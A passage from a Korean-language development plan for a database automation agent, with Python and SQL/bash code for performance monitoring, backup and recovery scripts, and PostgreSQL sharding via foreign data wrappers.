CREATE TABLE monitoring.metrics_2024_01_01 PARTITION OF monitoring.metrics
FOR VALUES FROM ('2024-01-01') TO ('2024-01-02');

-- Index for queries
CREATE INDEX idx_metrics_name_time ON monitoring.metrics(metric_name, collected_at DESC);

-- Slow query log table
CREATE TABLE IF NOT EXISTS monitoring.slow_queries (
    id BIGSERIAL PRIMARY KEY,
    query_id BIGINT,
    query TEXT,
    calls BIGINT,
    total_time NUMERIC,
    mean_time NUMERIC,
    max_time NUMERIC,
    stddev_time NUMERIC,
    rows BIGINT,
    logged_at TIMESTAMP NOT NULL DEFAULT CURRENT_TIMESTAMP
);

-- Performance recommendations table
CREATE TABLE IF NOT EXISTS monitoring.performance_recommendations (
    id SERIAL PRIMARY KEY,
    category VARCHAR(50),
    severity VARCHAR(20),
    description TEXT,
    recommendation TEXT,
    query_example TEXT,
    created_at TIMESTAMP NOT NULL DEFAULT CURRENT_TIMESTAMP,
    resolved_at TIMESTAMP
);

-- Monitoring functions
CREATE OR REPLACE FUNCTION monitoring.collect_metrics()
RETURNS void AS $$
BEGIN
    -- Collect connection metrics
    INSERT INTO monitoring.metrics (metric_name, metric_value, metric_tags)
    SELECT
        'connections_active',
        count(*),
        jsonb_build_object('state', state)
    FROM pg_stat_activity
    WHERE state IS NOT NULL
    GROUP BY state;

    -- Collect database size
    INSERT INTO monitoring.metrics (metric_name, metric_value, metric_tags)
    SELECT
        'database_size',
        pg_database_size(datname),
        jsonb_build_object('database', datname)
    FROM pg_database
    WHERE datname NOT IN ('template0', 'template1');

    -- Collect cache hit ratio
    INSERT INTO monitoring.metrics (metric_name, metric_value)
    SELECT
        'cache_hit_ratio',
        CASE
            WHEN blks_read + blks_hit = 0 THEN 0
            ELSE round(100.0 * blks_hit / (blks_read + blks_hit), 2)
        END
    FROM pg_stat_database
    WHERE datname = current_database();

    -- Collect transaction rate
    INSERT INTO monitoring.metrics (metric_name, metric_value)
    SELECT
        'transactions_per_second',
        xact_commit + xact_rollback
    FROM pg_stat_database
    WHERE datname = current_database();

    -- Collect table statistics
    INSERT INTO monitoring.metrics (metric_name, metric_value, metric_tags)
    SELECT
        'table_size',
        pg_total_relation_size(schemaname||'.'||tablename),
        jsonb_build_object(
            'schema', schemaname,
            'table', tablename
        )
    FROM pg_stat_user_tables;
END;
$$ LANGUAGE plpgsql;

-- Schedule metrics collection (requires pg_cron)
-- SELECT cron.schedule('collect-metrics', '*/1 * * * *', 'SELECT monitoring.collect_metrics()');
"""

class PerformanceTuner:
    """성능 튜닝 엔진"""

    def __init__(self):
        self.query_analyzer = QueryAnalyzer()
        self.index_advisor = IndexAdvisor()
        self.config_tuner = ConfigurationTuner()
        self.partition_advisor = PartitionAdvisor()

    async def analyze_performance(
        self,
        db_type: str,
        current_metrics: Dict[str, float],
        slow_queries: List[SlowQuery],
        schema: DatabaseSchema
    ) -> PerformanceReport:
        """성능 분석"""

        # 1. 데이터베이스 건강도 평가
        health = await self._assess_database_health(current_metrics)

        # 2. 인덱스 사용 분석
        index_usage = await self._analyze_index_usage(db_type, schema)

        # 3. 성능 권장사항 생성
        recommendations = []

        # 느린 쿼리 최적화
        query_recommendations = await self._analyze_slow_queries(
            slow_queries,
            schema
        )
        recommendations.extend(query_recommendations)

        # 인덱스 권장사항
        index_recommendations = await self._generate_index_recommendations(
            index_usage,
            slow_queries,
            schema
        )
        recommendations.extend(index_recommendations)

        # 설정 튜닝 권장사항
        config_recommendations = await self._generate_config_recommendations(
            current_metrics,
            db_type
        )
        recommendations.extend(config_recommendations)

        # 파티셔닝 권장사항
        partition_recommendations = await self._generate_partition_recommendations(
            schema,
            current_metrics
        )
        recommendations.extend(partition_recommendations)

        return PerformanceReport(
            timestamp=datetime.now(),
            database_health=health,
            performance_metrics=current_metrics,
            slow_queries=slow_queries,
            index_usage=index_usage,
            recommendations=recommendations
        )

    async def _assess_database_health(
        self,
        metrics: Dict[str, float]
    ) -> DatabaseHealth:
        """데이터베이스 건강도 평가"""

        health_score = 100.0
        issues = []

        # 연결 수 체크
        if metrics.get('connection_usage_percentage', 0) > 80:
            health_score -= 10
            issues.append("High connection usage")

        # 캐시 히트율 체크
        cache_hit_ratio = metrics.get('cache_hit_ratio', 100)
        if cache_hit_ratio < 90:
            health_score -= (90 - cache_hit_ratio) * 0.5
            issues.append(f"Low cache hit ratio: {cache_hit_ratio}%")

        # 쿼리 레이턴시 체크
        latency_p95 = metrics.get('query_latency_p95', 0)
        if latency_p95 > 1000:  # 1초
            health_score -= 20
            issues.append(f"High query latency: {latency_p95}ms")

        # 복제 지연 체크
        replication_lag = metrics.get('replication_lag', 0)
        if replication_lag > 5:
            health_score -= 15
            issues.append(f"Replication lag: {replication_lag}s")

        # 디스크 사용량 체크
        disk_usage = metrics.get('disk_usage_percentage', 0)
        if disk_usage > 80:
            health_score -= (disk_usage - 80) * 0.5
            issues.append(f"High disk usage: {disk_usage}%")

        return DatabaseHealth(
            score=max(0, health_score),
            status=self._get_health_status(health_score),
            issues=issues
        )

    async def _analyze_slow_queries(
        self,
        slow_queries: List[SlowQuery],
        schema: DatabaseSchema
    ) -> List[PerformanceRecommendation]:
        """느린 쿼리 분석"""

        recommendations = []

        for query in slow_queries[:10]:  # 상위 10개 쿼리
            # 쿼리 파싱 및 분석
            analysis = await self.query_analyzer.analyze(query.query)

            if analysis.missing_indexes:
                recommendations.append(PerformanceRecommendation(
                    category="index",
                    severity="high",
                    description=f"Missing index for query: {query.query_id}",
                    recommendation=f"Create index on {analysis.missing_indexes}",
                    estimated_improvement=analysis.estimated_improvement,
                    implementation_script=self._generate_index_script(
                        analysis.missing_indexes
                    )
                ))

            if analysis.has_full_table_scan:
                recommendations.append(PerformanceRecommendation(
                    category="query",
                    severity="medium",
                    description="Full table scan detected",
                    recommendation="Add WHERE clause or create appropriate index",
                    query_example=query.query
                ))

            if analysis.has_implicit_conversion:
                recommendations.append(PerformanceRecommendation(
                    category="query",
                    severity="medium",
                    description="Implicit type conversion detected",
                    recommendation="Use explicit type casting or match column types",
                    query_example=query.query
                ))

        return recommendations

    async def _generate_config_recommendations(
        self,
        metrics: Dict[str, float],
        db_type: str
    ) -> List[PerformanceRecommendation]:
        """설정 튜닝 권장사항"""

        recommendations = []

        if db_type == 'postgresql':
            # 공유 버퍼 크기
            if metrics.get('cache_hit_ratio', 100) < 95:
                recommendations.append(PerformanceRecommendation(
                    category="configuration",
                    severity="medium",
                    description="Low buffer cache hit ratio",
                    recommendation="Increase shared_buffers to 25% of system RAM",
                    implementation_script="ALTER SYSTEM SET shared_buffers = '4GB';"
                ))

            # 작업 메모리
            if metrics.get('temp_files_created', 0) > 100:
                recommendations.append(PerformanceRecommendation(
                    category="configuration",
                    severity="low",
                    description="Frequent temp file creation",
                    recommendation="Increase work_mem for complex queries",
                    implementation_script="ALTER SYSTEM SET work_mem = '256MB';"
                ))

            # 체크포인트 설정
            if metrics.get('checkpoint_frequency', 0) > 10:
                recommendations.append(PerformanceRecommendation(
                    category="configuration",
                    severity="medium",
                    description="Frequent checkpoints affecting performance",
                    recommendation="Increase checkpoint segments and timeout",
                    implementation_script="""
ALTER SYSTEM SET checkpoint_segments = 32;
ALTER SYSTEM SET checkpoint_timeout = '15min';
ALTER SYSTEM SET checkpoint_completion_target = 0.9;
"""
                ))

        return recommendations
```

**검증 기준**:

- [ ] 실시간 성능 모니터링
- [ ] 자동 성능 분석
- [ ] 튜닝 권장사항 생성
- [ ] 성능 대시보드 구성

#### SubTask 4.18.2: 백업 및 복구 전략

**담당자**: 데이터베이스 관리자  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/database_backup.py
from typing import Dict, List, Optional, Any
from dataclasses import dataclass
from enum import Enum
import cron

@dataclass
class BackupStrategy:
    backup_types: List[BackupType]
    schedule: BackupSchedule
    retention_policy: RetentionPolicy
    storage_configuration: StorageConfiguration
    recovery_procedures: RecoveryProcedures
    testing_plan: BackupTestingPlan
    scripts: Dict[str, str]

class BackupType(Enum):
    FULL = "full"
    INCREMENTAL = "incremental"
    DIFFERENTIAL = "differential"
    CONTINUOUS = "continuous"  # WAL/Binary log shipping
    SNAPSHOT = "snapshot"

class BackupStrategyGenerator:
    """백업 전략 생성기"""

    def __init__(self):
        self.schedule_planner = SchedulePlanner()
        self.retention_calculator = RetentionCalculator()
        self.recovery_planner = RecoveryPlanner()
        self.script_generator = BackupScriptGenerator()

    async def design_backup_strategy(
        self,
        db_type: str,
        requirements: ProjectRequirements,
        compliance: Optional[ComplianceRequirements],
        data_volume: DataVolume
    ) -> BackupStrategy:
        """백업 전략 설계"""

        # 1. RTO/RPO 분석
        rto_rpo = await self._analyze_rto_rpo(requirements, compliance)

        # 2. 백업 타입 결정
        backup_types = await self._determine_backup_types(
            rto_rpo,
            data_volume,
            db_type
        )

        # 3. 백업 스케줄 생성
        schedule = await self._create_backup_schedule(
            backup_types,
            rto_rpo,
            data_volume
        )

        # 4. 보관 정책 설정
        retention = await self._define_retention_policy(
            compliance,
            data_volume,
            backup_types
        )

        # 5. 스토리지 구성
        storage = await self._configure_storage(
            data_volume,
            retention,
            requirements
        )

        # 6. 복구 절차 생성
        recovery = await self._create_recovery_procedures(
            backup_types,
            db_type,
            rto_rpo
        )

        # 7. 테스트 계획 수립
        testing = await self._create_testing_plan(
            backup_types,
            recovery
        )

        # 8. 스크립트 생성
        scripts = await self._generate_backup_scripts(
            db_type,
            backup_types,
            storage
        )

        return BackupStrategy(
            backup_types=backup_types,
            schedule=schedule,
            retention_policy=retention,
            storage_configuration=storage,
            recovery_procedures=recovery,
            testing_plan=testing,
            scripts=scripts
        )

    async def _analyze_rto_rpo(
        self,
        requirements: ProjectRequirements,
        compliance: Optional[ComplianceRequirements]
    ) -> RTORPORequirements:
        """RTO/RPO 요구사항 분석"""

        # 기본값
        rto = 4  # 4시간
        rpo = 1  # 1시간

        # 요구사항 기반 조정
        if requirements.availability_requirement == "99.99%":
            rto = 0.25  # 15분
            rpo = 0.083  # 5분
        elif requirements.availability_requirement == "99.9%":
            rto = 1  # 1시간
            rpo = 0.25  # 15분

        # 컴플라이언스 요구사항
        if compliance:
            if compliance.requires_zero_data_loss:
                rpo = 0  # 동기식 복제 필요
            if compliance.max_recovery_time:
                rto = min(rto, compliance.max_recovery_time)

        return RTORPORequirements(
            rto_hours=rto,
            rpo_hours=rpo,
            requires_zero_data_loss=rpo == 0
        )

    async def _determine_backup_types(
        self,
        rto_rpo: RTORPORequirements,
        data_volume: DataVolume,
        db_type: str
    ) -> List[BackupType]:
        """백업 타입 결정"""

        backup_types = []

        # 기본 전체 백업
        backup_types.append(BackupType.FULL)

        # RPO에 따른 추가 백업
        if rto_rpo.rpo_hours <= 0.1:  # 6분 이하
            # 연속 백업 필요
            backup_types.append(BackupType.CONTINUOUS)
        elif rto_rpo.rpo_hours <= 1:  # 1시간 이하
            # 증분 백업
            backup_types.append(BackupType.INCREMENTAL)
        else:
            # 차등 백업
            backup_types.append(BackupType.DIFFERENTIAL)

        # 대용량 데이터베이스의 경우 스냅샷 추가
        if data_volume.total_size_gb > 1000:
            backup_types.append(BackupType.SNAPSHOT)

        return backup_types

    async def _generate_backup_scripts(
        self,
        db_type: str,
        backup_types: List[BackupType],
        storage: StorageConfiguration
    ) -> Dict[str, str]:
        """백업 스크립트 생성"""

        scripts = {}

        if db_type == 'postgresql':
            scripts.update(await self._generate_postgresql_backup_scripts(
                backup_types,
                storage
            ))
        elif db_type == 'mysql':
            scripts.update(await self._generate_mysql_backup_scripts(
                backup_types,
                storage
            ))

        # 공통 스크립트
        scripts['verify'] = await self._generate_verification_script()
        scripts['restore_test'] = await self._generate_restore_test_script()
        scripts['monitoring'] = await self._generate_backup_monitoring_script()

        return scripts

    async def _generate_postgresql_backup_scripts(
        self,
        backup_types: List[BackupType],
        storage: StorageConfiguration
    ) -> Dict[str, str]:
        """PostgreSQL 백업 스크립트"""

        scripts = {}

        # 전체 백업 스크립트
        if BackupType.FULL in backup_types:
            scripts['full_backup'] = f"""#!/bin/bash
# PostgreSQL Full Backup Script
# Generated by Database Agent

set -euo pipefail

# Configuration
DB_NAME="${{DB_NAME}}"
BACKUP_DIR="${{BACKUP_DIR:-/backup/postgresql}}"
S3_BUCKET="${{S3_BUCKET:-{storage.s3_bucket}}}"
RETENTION_DAYS="${{RETENTION_DAYS:-30}}"
TIMESTAMP=$(date +%Y%m%d_%H%M%S)

# Create backup directory
mkdir -p "${{BACKUP_DIR}}/full"

echo "[$(date)] Starting full backup of ${{DB_NAME}}"

# Perform backup with compression
pg_basebackup \\
    -D "${{BACKUP_DIR}}/full/backup_${{TIMESTAMP}}" \\
    -Ft \\
    -z \\
    -Xs \\
    -P \\
    -v \\
    -U postgres \\
    -w

# Create backup manifest
cat > "${{BACKUP_DIR}}/full/backup_${{TIMESTAMP}}/manifest.json" <<EOF
{{
    "timestamp": "${{TIMESTAMP}}",
    "type": "full",
    "database": "${{DB_NAME}}",
    "size": "$(du -sh "${{BACKUP_DIR}}/full/backup_${{TIMESTAMP}}" | cut -f1)",
    "pg_version": "$(psql -V | awk '{{print $3}}')",
    "start_time": "$(date -Is)",
    "wal_start": "$(pg_controldata | grep 'Latest checkpoint location' | awk '{{print $4}}')"
}}
EOF

# Upload to S3
if [ -n "${{S3_BUCKET}}" ]; then
    echo "[$(date)] Uploading to S3"
    aws s3 sync \\
        "${{BACKUP_DIR}}/full/backup_${{TIMESTAMP}}" \\
        "s3://${{S3_BUCKET}}/postgresql/full/backup_${{TIMESTAMP}}" \\
        --storage-class STANDARD_IA
fi

# Clean old backups
echo "[$(date)] Cleaning old backups"
find "${{BACKUP_DIR}}/full" -name "backup_*" -mtime +${{RETENTION_DAYS}} -exec rm -rf {{}} \\;

# Verify backup
echo "[$(date)] Verifying backup"
pg_verifybackup "${{BACKUP_DIR}}/full/backup_${{TIMESTAMP}}"

echo "[$(date)] Full backup completed successfully"

# Send notification
curl -X POST "${{WEBHOOK_URL}}" \\
    -H "Content-Type: application/json" \\
    -d '{{
        "text": "PostgreSQL full backup completed",
        "backup_id": "backup_'${{TIMESTAMP}}'",
        "size": "'$(du -sh "${{BACKUP_DIR}}/full/backup_${{TIMESTAMP}}" | cut -f1)'"
    }}'
"""

        # WAL 아카이빙 설정
        if BackupType.CONTINUOUS in backup_types:
            scripts['wal_archive'] = f"""#!/bin/bash
# PostgreSQL WAL Archive Script

set -euo pipefail

# Parameters from PostgreSQL
WAL_PATH="$1"
WAL_NAME="$2"

# Configuration
ARCHIVE_DIR="${{ARCHIVE_DIR:-/backup/postgresql/wal}}"
S3_BUCKET="${{S3_BUCKET:-{storage.s3_bucket}}}"

# Create archive directory
mkdir -p "${{ARCHIVE_DIR}}"

# Copy WAL file
cp "${{WAL_PATH}}" "${{ARCHIVE_DIR}}/${{WAL_NAME}}"

# Compress
gzip -9 "${{ARCHIVE_DIR}}/${{WAL_NAME}}"

# Upload to S3 (async)
if [ -n "${{S3_BUCKET}}" ]; then
    aws s3 cp \\
        "${{ARCHIVE_DIR}}/${{WAL_NAME}}.gz" \\
        "s3://${{S3_BUCKET}}/postgresql/wal/${{WAL_NAME}}.gz" \\
        --storage-class STANDARD_IA &
fi

# Clean old WAL files (keep 7 days)
find "${{ARCHIVE_DIR}}" -name "*.gz" -mtime +7 -delete

exit 0
"""

            # PostgreSQL 설정
            scripts['postgresql_conf'] = """
# WAL Configuration for Continuous Archiving
wal_level = replica
archive_mode = on
archive_command = '/backup/scripts/wal_archive.sh %p %f'
archive_timeout = 300  # 5 minutes
max_wal_senders = 3
wal_keep_segments = 64
"""

        # 증분 백업 (pg_probackup 사용)
        if BackupType.INCREMENTAL in backup_types:
            scripts['incremental_backup'] = """#!/bin/bash
# PostgreSQL Incremental Backup using pg_probackup

set -euo pipefail

# Configuration
BACKUP_DIR="${BACKUP_DIR:-/backup/postgresql}"
INSTANCE_NAME="${INSTANCE_NAME:-main}"
RETENTION_DAYS="${RETENTION_DAYS:-7}"

# Initialize backup catalog if not exists
if [ ! -d "${BACKUP_DIR}/backups" ]; then
    pg_probackup init -B "${BACKUP_DIR}"
    pg_probackup add-instance -B "${BACKUP_DIR}" -D "${PGDATA}" --instance="${INSTANCE_NAME}"
fi

# Perform incremental backup
pg_probackup backup \\
    -B "${BACKUP_DIR}" \\
    --instance="${INSTANCE_NAME}" \\
    -b DELTA \\
    --stream \\
    --compress-algorithm=zlib \\
    --compress-level=9 \\
    --retention-redundancy=3 \\
    --retention-window=${RETENTION_DAYS} \\
    --delete-expired

# Validate backup
BACKUP_ID=$(pg_probackup show -B "${BACKUP_DIR}" --instance="${INSTANCE_NAME}" | tail -2 | head -1 | awk '{print $1}')
pg_probackup validate \\
    -B "${BACKUP_DIR}" \\
    --instance="${INSTANCE_NAME}" \\
    -i "${BACKUP_ID}"

echo "Incremental backup ${BACKUP_ID} completed successfully"
"""

        return scripts

class RecoveryPlanner:
    """복구 계획 생성기"""

    async def create_recovery_procedures(
        self,
        backup_types: List[BackupType],
        db_type: str,
        rto_rpo: RTORPORequirements
    ) -> RecoveryProcedures:
        """복구 절차 생성"""

        procedures = RecoveryProcedures()

        # 1. 장애 시나리오별 복구 절차
        procedures.scenarios = await self._create_recovery_scenarios(
            backup_types,
            db_type
        )

        # 2. 복구 스크립트
        procedures.scripts = await self._generate_recovery_scripts(
            backup_types,
            db_type
        )

        # 3. 복구 체크리스트
        procedures.checklist = await self._create_recovery_checklist(
            db_type,
            rto_rpo
        )

        # 4. 복구 시간 예측
        procedures.time_estimates = await self._estimate_recovery_times(
            backup_types,
            db_type
        )

        return procedures

    async def _create_recovery_scenarios(
        self,
        backup_types: List[BackupType],
        db_type: str
    ) -> List[RecoveryScenario]:
        """복구 시나리오 생성"""

        scenarios = []

        # 전체 장애 복구
        scenarios.append(RecoveryScenario(
            name="Complete Database Failure",
            description="Total database corruption or server failure",
            recovery_steps=[
                "1. Assess the damage and identify the failure point",
                "2. Prepare new server/instance if needed",
                "3. Restore from most recent full backup",
                "4. Apply incremental/WAL logs up to failure point",
                "5. Verify data integrity",
                "6. Update connection strings and restart services"
            ],
            estimated_time="1-4 hours",
            data_loss_risk="Up to last backup point"
        ))

        # 부분 데이터 손실
        scenarios.append(RecoveryScenario(
            name="Partial Data Loss",
            description="Accidental deletion or corruption of specific data",
            recovery_steps=[
                "1. Identify affected tables/data",
                "2. Set up temporary recovery instance",
                "3. Restore backup to recovery instance",
                "4. Extract required data",
                "5. Import extracted data to production",
                "6. Verify data consistency"
            ],
            estimated_time="30 minutes - 2 hours",
            data_loss_risk="None if within backup retention"
        ))

        # Point-in-Time 복구
        if BackupType.CONTINUOUS in backup_types:
            scenarios.append(RecoveryScenario(
                name="Point-in-Time Recovery",
                description="Restore database to specific timestamp",
                recovery_steps=[
                    "1. Identify target recovery time",
                    "2. Restore base backup before target time",
                    "3. Apply WAL/binary logs up to target time",
                    "4. Verify recovery point",
                    "5. Open database for connections"
                ],
                estimated_time="1-2 hours",
                data_loss_risk="None up to recovery point"
            ))

        return scenarios

    async def _generate_recovery_scripts(
        self,
        backup_types: List[BackupType],
        db_type: str
    ) -> Dict[str, str]:
        """복구 스크립트 생성"""

        scripts = {}

        if db_type == 'postgresql':
            # 전체 복구 스크립트
            scripts['full_recovery'] = """#!/bin/bash
# PostgreSQL Full Recovery Script

set -euo pipefail

# Configuration
BACKUP_ID="${1:-latest}"
BACKUP_DIR="${BACKUP_DIR:-/backup/postgresql}"
PGDATA="${PGDATA:-/var/lib/postgresql/data}"
RECOVERY_TARGET_TIME="${2:-}"

echo "[$(date)] Starting PostgreSQL recovery"

# Stop PostgreSQL if running
systemctl stop postgresql || true

# Backup current data directory
if [ -d "${PGDATA}" ]; then
    mv "${PGDATA}" "${PGDATA}.old.$(date +%Y%m%d_%H%M%S)"
fi

# Find backup to restore
if [ "${BACKUP_ID}" = "latest" ]; then
    BACKUP_PATH=$(find "${BACKUP_DIR}/full" -name "backup_*" -type d | sort -r | head -1)
else
    BACKUP_PATH="${BACKUP_DIR}/full/backup_${BACKUP_ID}"
fi

if [ ! -d "${BACKUP_PATH}" ]; then
    echo "ERROR: Backup not found: ${BACKUP_PATH}"
    exit 1
fi

echo "[$(date)] Restoring from ${BACKUP_PATH}"

# Extract backup
mkdir -p "${PGDATA}"
tar -xzf "${BACKUP_PATH}/base.tar.gz" -C "${PGDATA}"

# Create recovery configuration
if [ -n "${RECOVERY_TARGET_TIME}" ]; then
    cat > "${PGDATA}/recovery.conf" <<EOF
restore_command = 'cp /backup/postgresql/wal/%f %p'
recovery_target_time = '${RECOVERY_TARGET_TIME}'
recovery_target_action = 'promote'
EOF
else
    cat > "${PGDATA}/recovery.conf" <<EOF
restore_command = 'cp /backup/postgresql/wal/%f %p'
recovery_target = 'immediate'
EOF
fi

# Set permissions
chown -R postgres:postgres "${PGDATA}"
chmod 700 "${PGDATA}"

# Start PostgreSQL
systemctl start postgresql

# Wait for recovery
echo "[$(date)] Waiting for recovery to complete..."
until psql -U postgres -c "SELECT pg_is_in_recovery();" | grep -q "f"; do
    sleep 5
done

echo "[$(date)] Recovery completed successfully"

# Verify database
psql -U postgres -c "SELECT current_timestamp, pg_is_in_recovery();"

# Create new backup immediately
/backup/scripts/full_backup.sh

echo "[$(date)] Post-recovery backup completed"
"""

            # 부분 복구 스크립트
            scripts['partial_recovery'] = """#!/bin/bash
# PostgreSQL Partial Data Recovery Script

set -euo pipefail

# Parameters
TABLE_NAME="${1}"
BACKUP_ID="${2:-latest}"
OUTPUT_FILE="${3:-${TABLE_NAME}_recovered.sql}"

# Configuration
BACKUP_DIR="${BACKUP_DIR:-/backup/postgresql}"
TEMP_PORT="5433"
TEMP_DIR="/tmp/pg_recovery_${RANDOM}"

echo "[$(date)] Starting partial recovery for table ${TABLE_NAME}"

# Create temporary instance
mkdir -p "${TEMP_DIR}"
pg_basebackup -D "${TEMP_DIR}" -Ft -x -z

# Extract and start temporary instance
cd "${TEMP_DIR}"
tar -xzf base.tar.gz
rm base.tar.gz

# Modify configuration
cat >> postgresql.conf <<EOF
port = ${TEMP_PORT}
unix_socket_directories = '${TEMP_DIR}'
EOF

# Start temporary instance
pg_ctl -D "${TEMP_DIR}" -l "${TEMP_DIR}/logfile" start

# Wait for startup
sleep 5

# Extract table data
pg_dump -p ${TEMP_PORT} -t ${TABLE_NAME} --data-only -f "${OUTPUT_FILE}"

# Stop temporary instance
pg_ctl -D "${TEMP_DIR}" stop

# Cleanup
rm -rf "${TEMP_DIR}"

echo "[$(date)] Table data exported to ${OUTPUT_FILE}"
echo "To restore: psql -f ${OUTPUT_FILE}"
"""

        return scripts
```

**검증 기준**:

- [ ] 자동 백업 스케줄링
- [ ] 다양한 백업 타입 지원
- [ ] 복구 절차 자동화
- [ ] 백업 검증 시스템

#### SubTask 4.18.3: 분산 데이터베이스 지원

**담당자**: 분산 시스템 아키텍트  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/distributed_database.py
from typing import Dict, List, Optional, Any
from dataclasses import dataclass
from enum import Enum

@dataclass
class DistributedDatabaseDesign:
    sharding_strategy: ShardingStrategy
    replication_topology: ReplicationTopology
    consistency_model: ConsistencyModel
    partition_scheme: PartitionScheme
    cluster_configuration: ClusterConfiguration
    failover_strategy: FailoverStrategy
    monitoring_setup: DistributedMonitoring

class ShardingStrategy(Enum):
    HASH = "hash"
    RANGE = "range"
    LIST = "list"
    GEOGRAPHY = "geography"
    CUSTOM = "custom"

class DistributedDatabaseDesigner:
    """분산 데이터베이스 설계"""

    def __init__(self):
        self.sharding_designer = ShardingDesigner()
        self.replication_planner = ReplicationPlanner()
        self.consistency_manager = ConsistencyManager()
        self.cluster_builder = ClusterBuilder()

    async def design_distributed_system(
        self,
        requirements: ProjectRequirements,
        schema: DatabaseSchema,
        expected_scale: ScaleExpectations,
        geographic_distribution: Optional[GeographicRequirements] = None
    ) -> DistributedDatabaseDesign:
        """분산 데이터베이스 시스템 설계"""

        # 1. 샤딩 전략 설계
        sharding = await self._design_sharding_strategy(
            schema,
            expected_scale,
            geographic_distribution
        )

        # 2. 복제 토폴로지 설계
        replication = await self._design_replication_topology(
            requirements,
            expected_scale,
            geographic_distribution
        )

        # 3. 일관성 모델 선택
        consistency = await self._select_consistency_model(
            requirements,
            sharding,
            replication
        )

        # 4. 파티션 스킴 설계
        partition = await self._design_partition_scheme(
            schema,
            sharding,
            expected_scale
        )

        # 5. 클러스터 구성
        cluster = await self._configure_cluster(
            expected_scale,
            replication,
            geographic_distribution
        )

        # 6. 장애 조치 전략
        failover = await self._design_failover_strategy(
            cluster,
            requirements
        )

        # 7. 모니터링 설정
        monitoring = await self._setup_distributed_monitoring(
            cluster,
            sharding
        )

        return DistributedDatabaseDesign(
            sharding_strategy=sharding,
            replication_topology=replication,
            consistency_model=consistency,
            partition_scheme=partition,
            cluster_configuration=cluster,
            failover_strategy=failover,
            monitoring_setup=monitoring
        )

    async def _design_sharding_strategy(
        self,
        schema: DatabaseSchema,
        expected_scale: ScaleExpectations,
        geographic_distribution: Optional[GeographicRequirements]
    ) -> ShardingStrategy:
        """샤딩 전략 설계"""

        # 샤딩 키 선택
        shard_keys = await self._identify_shard_keys(schema)

        # 샤딩 방법 결정
        if geographic_distribution and geographic_distribution.requires_data_locality:
            sharding_method = ShardingStrategy.GEOGRAPHY
        elif self._has_natural_ranges(shard_keys):
            sharding_method = ShardingStrategy.RANGE
        else:
            sharding_method = ShardingStrategy.HASH

        # 샤드 수 계산
        num_shards = self._calculate_shard_count(expected_scale)

        # 샤딩 구성
        sharding_config = {
            'method': sharding_method,
            'shard_keys': shard_keys,
            'num_shards': num_shards,
            'shard_size_target': expected_scale.data_per_shard_gb,
            'growth_strategy': 'auto_split' if expected_scale.growth_rate > 50 else 'manual'
        }

        # 샤딩 스크립트 생성
        scripts = await self._generate_sharding_scripts(
            schema,
            sharding_config
        )

        return ShardingConfiguration(
            strategy=sharding_method,
            configuration=sharding_config,
            scripts=scripts
        )

class ShardingDesigner:
    """샤딩 설계 엔진"""

    async def generate_sharding_implementation(
        self,
        schema: DatabaseSchema,
        sharding_config: Dict[str, Any],
        db_type: str
    ) -> Dict[str, str]:
        """샤딩 구현 생성"""

        if db_type == 'postgresql':
            return await self._generate_postgresql_sharding(schema, sharding_config)
        elif db_type == 'mongodb':
            return await self._generate_mongodb_sharding(schema, sharding_config)
        else:
            return await self._generate_generic_sharding(schema, sharding_config)

    async def _generate_postgresql_sharding(
        self,
        schema: DatabaseSchema,
        sharding_config: Dict[str, Any]
    ) -> Dict[str, str]:
        """PostgreSQL 샤딩 구현"""

        scripts = {}

        # 1. Foreign Data Wrapper 기반 샤딩
        scripts['setup_fdw'] = """
-- Enable Foreign Data Wrapper
CREATE EXTENSION IF NOT EXISTS postgres_fdw;

-- Create foreign servers for each shard
"""

        for i in range(sharding_config['num_shards']):
            scripts['setup_fdw'] += f"""
-- Shard {i}
CREATE SERVER shard_{i}
    FOREIGN DATA WRAPPER postgres_fdw
    OPTIONS (
        host 'shard{i}.example.com',
        port '5432',
        dbname 'app_shard_{i}'
    );

CREATE USER MAPPING FOR app_user
    SERVER shard_{i}
    OPTIONS (user 'app_user', password 'secure_password');
"""

        # 2. 파티션 테이블 생성
        for table in schema.tables:
            if table.shardable:
                scripts[f'partition_{table.name}'] = f"""
-- Create partitioned table for {table.name}
CREATE TABLE {table.name} (
{self._generate_column_definitions(table.columns)}
) PARTITION BY HASH ({sharding_config['shard_keys'][0]});

-- Create foreign table partitions
"""

                for i in range(sharding_config['num_shards']):
                    scripts[f'partition_{table.name}'] += f"""
-- Partition for shard {i}
CREATE FOREIGN TABLE {table.name}_shard_{i}
    PARTITION OF {table.name}
    FOR VALUES WITH (modulus {sharding_config['num_shards']}, remainder {i})
    SERVER shard_{i}
    OPTIONS (schema_name 'public', table_name '{table.name}');
"""

        # 3. 샤딩 함수
        scripts['sharding_functions'] = """
-- Shard routing function
CREATE OR REPLACE FUNCTION get_shard_for_key(shard_key BIGINT, num_shards INT)
RETURNS INT AS $$
BEGIN
    RETURN abs(hashtext(shard_key::text)) % num_shards;
END;
$$ LANGUAGE plpgsql IMMUTABLE;

-- Cross-shard query function
CREATE OR REPLACE FUNCTION query_all_shards(query_template TEXT)
RETURNS TABLE(shard_id INT, result JSON) AS $$
DECLARE
    shard_server TEXT;
    shard_result JSON;
BEGIN
    FOR shard_id IN 0..({num_shards} - 1) LOOP
        shard_server := 'shard_' || shard_id;

        -- Execute query on shard
        SELECT json_agg(row_to_json(t))
        FROM dblink(shard_server, query_template) AS t
        INTO shard_result;

        RETURN QUERY SELECT shard_id, shard_result;
    END LOOP;
END;
$$ LANGUAGE plpgsql;

-- Distributed aggregation function
CREATE OR REPLACE FUNCTION distributed_count(table_name TEXT, filter_clause TEXT DEFAULT '')
RETURNS BIGINT AS $$
DECLARE
    total_count BIGINT := 0;
    shard_count BIGINT;
    query TEXT;
BEGIN
    query := format('SELECT COUNT(*) FROM %I %s', table_name, filter_clause);

    FOR shard_id IN 0..({num_shards} - 1) LOOP
        SELECT count
        FROM dblink('shard_' || shard_id, query) AS t(count BIGINT)
        INTO shard_count;

        total_count := total_count + shard_count;
    END LOOP;

    RETURN total_count;
END;
$$ LANGUAGE plpgsql;
""".format(num_shards=sharding_config['num_shards'])

        # 4. 샤드 재분배 스크립트
        scripts['rebalance_shards'] = """
-- Shard rebalancing procedure
CREATE OR REPLACE PROCEDURE rebalance_shards(
    source_shard INT,
    target_shard INT,
    move_percentage DECIMAL DEFAULT 0.5
)
LANGUAGE plpgsql
AS $$
DECLARE
    table_record RECORD;
    move_count BIGINT;
BEGIN
    -- For each sharded table
    FOR table_record IN
        SELECT tablename
        FROM pg_tables
